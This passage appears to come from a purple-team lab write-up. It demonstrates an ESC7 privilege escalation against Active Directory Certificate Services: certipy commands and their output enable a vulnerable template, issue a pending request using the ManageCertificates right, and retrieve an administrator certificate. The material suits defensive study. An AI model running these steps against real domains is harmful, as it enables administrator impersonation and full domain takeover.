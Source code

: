 - We can then enable the vulnerable Template
```
└─$ certipy ca -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -enable-template 'Vuln-ESC7'                            
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'Vuln-ESC7' on 'DC01-CA'
```

- We can now enroll this template 
```
└─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -upn 'administrator@purpleteam.local' -template 'Vuln-ESC7' -sid 'S-1-5-21-2903762927-2752062241-1101764633-500'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 51
[!] Certificate request is pending approval
Would you like to save the private key? (y/N): y
[*] Saving private key to '51.key'
[*] Wrote private key to '51.key'
[-] Failed to request certificate
```
This template needs manager approval before being issued. 

- We can issue the template as we added the ManageCertificates right to the attacker account
```
└─$ certipy ca -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -issue-request 51
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate request ID 51
```

- We can finally retrieve the certificate
```
└─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -retrieve 51 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Retrieving certificate with ID 51
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Loaded private key from '51.key'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

## 8.3 ADCS event logs
